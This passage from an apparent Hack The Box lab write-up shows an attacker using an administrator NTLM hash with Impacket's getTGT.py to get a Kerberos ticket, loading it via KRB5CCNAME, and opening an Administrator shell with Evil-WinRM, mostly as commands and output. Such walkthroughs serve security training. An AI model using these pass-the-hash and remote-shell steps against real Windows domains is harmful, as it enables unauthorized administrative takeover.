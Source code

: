 

#### Using Impacket

One way to get a local ticket using the hash is with `getTGT.py` (from
[Impacket](https://github.com/SecureAuthCorp/impacket)). It takes the
account and the credentials (password or hash) and talks to the DC to
get a ticket that can be used to authenticate, saving that ticket in
`administrator.ccache`:



    oxdf@hacky$ getTGT.py -hashes :b3ff8d7532eef396a5347ed33933030f windcorp.htb/administrator
    Impacket v0.10.1.dev1+20220720.103933.3c6713e - Copyright 2022 SecureAuth Corporation

    [*] Saving ticket in administrator.ccache



`klist` and other Kerberos tools will use the location
`/tmp/krb5cc_1000` to store tickets by default, but the `KRB5CCNAME`
environment variable can be used to identify a different file. For
example, using this ticket just acquired:



    oxdf@hacky$ KRB5CCNAME=./administrator.ccache klist
    Ticket cache: FILE:./administrator.ccache
    Default principal: administrator@WINDCORP.HTB

    Valid starting       Expires              Service principal
    11/11/2022 11:54:12  11/11/2022 21:54:12  krbtgt/WINDCORP.HTB@WINDCORP.HTB
            renew until 11/12/2022 11:54:11



### Shell

#### Evil-WinRM

Now I can connect over
[Evil-WinRM](https://github.com/Hackplayers/evil-winrm) using just the
hostname and the realm:



    oxdf@hacky$ evil-winrm -i hathor.windcorp.htb -r WINDCORP.HTB

    Evil-WinRM shell v3.4

    Info: Establishing connection to remote endpoint

    *Evil-WinRM* PS C:\Users\Administrator\Documents>



Or to use the ticket generated by `getTGT.py`:



    oxdf@hacky$ KRB5CCNAME=./administrator.ccache evil-winrm -i hathor.windcorp.htb -r WINDCORP.HTB

    Evil-WinRM shell v3.4
